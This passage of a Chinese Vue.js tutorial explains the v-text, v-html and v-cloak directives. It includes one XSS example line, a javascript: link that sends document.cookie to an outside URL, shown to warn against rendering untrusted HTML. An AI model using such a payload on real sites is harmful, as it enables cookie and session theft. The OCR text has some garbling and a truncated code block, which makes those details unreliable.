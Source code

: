运行结果：`你好，shi`，`shi`

- 总结：

  作用：向其所在的节点中渲染文本内容。
  与插值语法的区别： v-text会 替换掉节点中的内容，{{xx}}则不会。

### 2. v-html指令

> 与v-text的功能一致，但`v-html`可以进行结构解析。即可以将定义的字符标签转换为HTML。

~~~html
<body>
    <!--准备好一个容器--> 
    <div id="root">
        <div v-html= "str"></div>
    </div>
</body>
<script type= "text/javascript" >
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示。
    new Vue({
        el:'#root'，
        data:{
        name: 'shi',
        str:'<p>你好啊! </p>'
</script>
~~~

运行后页面输出：**`你好啊！`**

~~~html
<a href=javascript:location.href= "http:/ /www. baidu . com?"+document.cookie></a>
~~~

- 总结

  v-htm1指令：

  1. 作用:向指定节点中渲染包含html1结构的内容。
  2. 与插值语法的区别:
     - v-html会替换掉节点中所有的内容，{{xx}}则不会。
     - v-htm1可以识别htm1结构。
  3. 严重注意: v-htm1有 安全性问题! ! ! !
     - 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
     - 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上!

### 3. v-cloak指令

> v-cloak指令常常用在插值表达式的标签中，因为它可以解决当网络加载很慢时，或者频繁渲染时候，页面就会显示出源代码的情况。
>
> v-cloak原理是先通过样式隐藏内容，然后在内存中进行值的替换，将替换的内容再反馈给界面，数据渲染完场之后，v-cloak 属性会被自动去除。

~~~html
<style type="text/css">
    [v-cloak]{
        display: none;
    }
</style>
<h3 v-cloak>{{name}}</h3>
~~~
